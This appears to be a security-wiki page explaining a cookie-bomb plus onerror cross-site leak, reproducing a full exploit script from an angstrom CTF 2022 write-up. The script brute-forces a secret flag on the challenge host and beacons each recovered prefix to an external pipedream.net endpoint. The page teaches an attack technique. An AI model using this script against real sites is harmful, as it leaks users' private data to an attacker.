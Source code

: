 # Cookie Bomb + Onerror XS Leak



The following **script** taken from [**here**](https://blog.huli.tw/2022/05/05/en/angstrom-ctf-2022-writeup-en/) is exploiting a functionality that allows the user to **insert any amount of cookies**, and then loading a file as a script knowing that the true response will be larger than the false one and then. If successful, the response is a redirect with a resulting URL longer, **too large to handle by the server so return an error http status code**. If the search fails, nothing will happen because URL is short.

```html
<>'";<form action='https://sustenance.web.actf.co/s' method=POST><input id=f /><input name=search value=a /></form>
<script>
    const $ = document.querySelector.bind(document);
    const sleep = (ms) => new Promise(r => setTimeout(r, ms));
    let i = 0;
    const stuff = async (len=3500) => {
        let name = Math.random();
        $("form").target = name;
        let w = window.open('', name);
        $("#f").value = "_".repeat(len);
        $("#f").name = i++;
        $("form").submit();
        await sleep(100);
    };
    const isError = async (url) => {
        return new Promise(r => {
            let script = document.createElement('script');
            script.src = url;
            script.onload = () => r(false);
            script.onerror = () => r(true);
            document.head.appendChild(script);
        });
    }
    const search = (query) => {
        return isError("https://sustenance.web.actf.co/q?q=" + encodeURIComponent(query));
    };
    const alphabet = "etoanihsrdluc_01234567890gwyfmpbkvjxqz{}ETOANIHSRDLUCGWYFMPBKVJXQZ";
    const url = "//en4u1nbmyeahu.x.pipedream.net/";
    let known = "actf{";
    window.onload = async () => {
        navigator.sendBeacon(url + "?load");
        await Promise.all([stuff(), stuff(), stuff(), stuff()]);
        await stuff(1600);
        navigator.sendBeacon(url + "?go");
        while (true) {
            for (let c of alphabet) {
                let query = known + c;
                if (await search(query)) {
                    navigator.sendBeacon(url, query);
                    known += c;
                    break;
                }
            }
        }
    };
</script>
```








